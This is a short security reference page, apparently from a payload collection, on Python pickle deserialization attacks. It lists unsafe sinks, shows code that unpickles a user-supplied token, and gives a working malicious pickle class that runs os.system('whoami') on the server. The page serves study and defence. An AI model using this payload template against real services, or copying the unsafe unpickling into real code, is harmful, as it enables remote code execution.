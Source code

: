 # Python Deserialization

> Python deserialization is the process of reconstructing Python objects from serialized data, commonly done using formats like JSON, pickle, or YAML. The pickle module is a frequently used tool for this in Python, as it can serialize and deserialize complex Python objects, including custom classes.

## Summary

* [Detection](#detection)
* [Pickle](#pickle)
* [References](#references)


## Detection

In Python source code, look for these sinks:

* `cPickle.loads`
* `pickle.loads`
* `_pickle.loads`
* `jsonpickle.decode`


## Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```


## References

- [Exploiting misuse of Python's "pickle" - Nelson Elhage - March 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)